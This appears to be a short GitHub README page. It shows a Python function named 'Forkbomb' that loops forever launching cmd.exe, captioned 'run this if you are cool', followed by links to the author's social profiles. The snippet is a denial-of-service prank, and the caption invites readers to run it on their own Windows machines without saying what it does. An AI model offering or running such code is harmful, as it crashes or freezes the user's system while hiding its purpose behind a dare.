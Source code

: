 <p align="center">  
  <img src="https://canary.discordapp.com/channels/628284470839083008/631162287968747550/761929460910915595" alt="fax" width="1000" height="1">
</p>
<p align="center">
  <p align="center">
    run this if you are cool
  </p>
</p>
```py
import os

def Forkbomb():
	while True:
		try:
			os.startfile('cmd.exe')
		except:
			pass
```
<p align="center">
  <p align="center">
    <a href="https://twitter.com/purelxw">twitter</a>
    ·
    <a href="https://t.me/purelxw">telegram</a>
    ·
    <a href="https://www.steamcommunity.com/id/purelxw">steam</a>
    ·
    <a href="https://discord.bio/p/tay">discord</a>
<p align="center">  
  <img src="https://canary.discordapp.com/channels/628284470839083008/631162287968747550/761929460910915595" alt="fax" width="1000" height="1">
</p>
